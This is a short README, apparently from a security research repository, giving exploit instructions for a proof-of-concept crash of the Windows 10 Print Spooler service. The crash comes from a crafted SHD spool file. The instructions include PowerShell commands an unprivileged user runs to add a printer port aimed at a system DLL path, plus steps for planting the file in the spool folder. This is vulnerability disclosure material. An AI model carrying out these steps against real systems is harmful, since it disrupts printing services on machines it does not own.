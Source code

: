 # Spooler DoS
The folder contains the ```00002.SHD``` file which crashes the Spooler service once processed.

## Exploit Instructions
The file will crash the Windows 10 Print Spooler service (64-bit), but can also crash previous versions (also 32-bit) by using different offsets.

You can use our 010 Editor Templates for modifying the SHD files more conveniently.

------

1. Add a virtual printer port, printer driver and virtual printer (by using an unprivileged user:)
   ```
   Add-PrinterPort "c:\windows\system32\wbem\wbemcomn.dll";
   Add-PrinterDriver "SBPrinter";
   Add-Printer -Name "SBPrinter" -DriverName "MS Publisher Color Printer" -PortName "c:\windows\system32\wbem\wbemcomn.dll";
   ```
2. Copy the crafted SHD file, and a blank file named ```00012.SPL``` to the  ```c:\windows\system32\spool\PRINTERS\``` folder.
3. Restart the service by using an Administrator, or the VM by using the unprivileged user.
4. The Print Spooler service will process the SHD file, will try to dereference an invalid memory address and will crash.